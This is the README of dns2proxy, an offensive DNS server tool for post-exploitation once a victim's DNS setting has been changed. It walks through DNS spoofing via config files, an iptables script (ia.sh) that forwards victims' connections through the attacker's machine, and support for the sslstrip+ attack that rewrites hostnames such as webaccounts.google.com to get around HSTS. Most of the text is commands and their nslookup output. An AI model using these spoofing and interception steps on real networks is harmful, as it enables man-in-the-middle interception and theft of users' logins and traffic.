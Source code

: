 dns2proxy
=========

Offensive DNS server

This tools offer a different features for post-explotation once you change the DNS server to a Victim.

Feature 1
---------

Traditional DNS Spoof adding to the response the original IP address.

Using spoof.cfg file:

   hostname ip.ip.ip.ip

root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg

// launch in another terminal dns2proxy.py

root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   www.s21sec.com
Address: 1.1.1.1
Name:   www.s21sec.com
Address: 88.84.64.30


or you can use dominios.cfg file to spoof all host of a same domain:

root@kali:~/demoBH/dns2proxy# cat dominios.cfg
.domain.com 192.168.1.1

root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   aaaa.domain.com
Address: 192.168.1.1

Hostnames at nospoof.cfg will no be spoofed.

Feature 2
---------

This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.
Check my slides at BlackHat Asia 2014 (OFFENSIVE: EXPLOITING DNS SERVERS CHANGES).

To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding

Usage: ia.sh <interface> <ip1> <ip2>


root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230
Non spoofing imap.gmail.com
Non spoofing mail.s21sec.com
Non spoofing www.google.com
Non spoofing www.apple.com
Non spoofing ccgenerals.ms19.gamespy.com
Non spoofing master.gamespy.com
Non spoofing gpcm.gamespy.com
Non spoofing launch.gamespyarcade.com
Non spoofing peerchat.gamespy.com
Non spoofing gamestats.gamespy.com
Specific host spoofing www.s21sec.com with 1.1.1.1
Specific domain IP .domain.com with 192.168.1.1
binded to UDP port 53.
waiting requests.
Starting sniffing in (eth0 = 172.16.48.128)....

< at other terminal >

root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   www.microsoft.com
Address: 172.16.48.128
Name:   www.microsoft.com
Address: 172.16.48.230
Name:   www.microsoft.com
Address: 65.55.57.27


The fhtang.sh script will terminate the program and restore normal iptables.

Hostnames at nospoof.cfg will no be spoofed.


Feature 3
---------

Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.

This server is necesary to make the sslstrip+ attack.

root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com
Server:         127.0.0.1
Address:        127.0.0.1#53

Name:   webaccounts.google.com
Address: 172.16.48.128
Name:   webaccounts.google.com
Address: 172.16.48.230
Name:   webaccounts.google.com
Address: 74.125.200.84

root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like
Server:         127.0.0.1                                                     www.yahoo.com
Address:        127.0.0.1#53

Name:   wwww.yahoo.com
Address: 172.16.48.128
Name:   wwww.yahoo.com
Address: 172.16.48.230
Name:   wwww.yahoo.com
Address: 68.142.243.179
Name:   wwww.yahoo.com
Address: 68.180.206.184


Instalation
-----------

Python 2.6 and dnspython (www.dnspython.com) is needed.


